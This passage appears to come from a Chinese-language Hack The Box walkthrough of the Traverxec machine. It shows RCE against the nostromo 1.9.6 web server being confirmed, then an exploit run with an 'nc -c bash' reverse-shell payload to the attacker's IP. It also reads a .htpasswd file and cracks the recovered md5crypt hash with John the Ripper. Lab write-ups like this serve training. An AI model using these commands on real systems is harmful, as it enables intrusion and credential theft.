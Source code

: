 ```
|\     \|\    \   |\         /| |\    \  /  \    
| \_____\|    |   | \_______/ | | \____\/    |   
| |     /____/|    \ |     | /  | |    |____/|   
 \|_____|    ||     \|_____|/    \|____|   | |   
        |____|/                        |___|/    




HTTP/1.1 200 OK
Date: Mon, 27 Dec 2021 15:20:04 GMT
Server: nostromo 1.9.6
Connection: close


uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

成功执行```id```命令，证实rce存在

我们执行以下payload

> python 47837.py 10.10.10.165 80 'nc -c bash 10.10.14.3 4242'


成功拿到立足点：
```
┌──(root💀kali)-[~/htb/Traverxec]
└─# nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.165] 46046
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```


在 ```/var/nostromo/conf/.htpasswd```找到一个用户凭证
```
www-data@traverxec:/tmp$ cat /var/nostromo/conf/.htpasswd
cat /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/

```

保存到本地用john破解
```
hn --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (david)
1g 0:00:01:04 DONE (2021-12-27 11:11) 0.01548g/s 163775p/s 163775c/s 163775C/s Noyoudo..Novaem
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```
